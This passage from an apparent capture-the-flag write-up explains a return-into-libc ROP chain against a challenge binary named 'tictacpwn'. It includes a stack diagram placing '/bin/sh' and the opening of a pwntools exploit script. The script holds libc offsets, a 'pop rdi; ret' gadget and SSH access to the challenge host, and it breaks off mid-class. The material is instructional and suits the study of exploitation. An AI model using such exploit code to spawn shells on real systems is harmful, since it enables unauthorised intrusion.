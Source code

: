 ```
|          [junk]       |
 -----------------------  ==> RBP-0x10
|          [junk]       |
 -----------------------  ==> RBP-0x18
|          [junk]       |
 -----------------------  ==> RBP-0x20
|          [junk]       |
 -----------------------  ==> RBP-0x28
|       '/bin/sh\x00'   |
 -----------------------  ==> RBP-0x30
Total : 8 * 10 = 80 bytes (10 qwords)
```

Just a side note, to explain the presence of the trivial `ret` gadget : some functions of the `libc` require the stack to be `16`-byte aligned. See [this article](https://valsamaras.medium.com/introduction-to-x64-binary-exploitation-part-2-return-into-libc-c325017f465.) for more explanations.

## The final exploit

```
from pwn import *
import os
from ctypes import CDLL
from time import sleep

context.terminal = 'gnome-terminal'

libc = CDLL("libc.so.6")

FILENAME = './tictacpwn'

class RPSHandler:
    # On debian docker and remote
    OFFSET_SYSTEM_LIBC = 0x4c3a0 - 0x26000
    # On local machine
    # OFFSET_SYSTEM_LIBC = 168912
    # On debian docker and remote
    OFFSET_GADGET_LIBC = 0x0000000000027765 - 0x26000
    # On local machine
    # OFFSET_GADGET_LIBC = 872989 # Offset of "pop rdi ; ret" in segment
    OFFSET_WIN_MESSAGE_DATA = 0x40
    OFFSET_EXIT_MESSAGE_DATA = 0x20
    PADDING_LEN = 0x20

    def __init__(self, remote=None, debug=False):
        self.debug = debug
        self.elf = ELF(FILENAME)
        self.remote = True if remote else False

        if remote:
            s = ssh(host=remote[0],
                    user='user',
                    password='user',
                    port=remote[1])
            self.p = s.process('/challenge/tictacpwn')
        else:
            self.p = process(FILENAME)

        libc.srand(libc.time(0))
        self.seed = libc.rand()
        self.reseed()

        self.winning_seq = []
```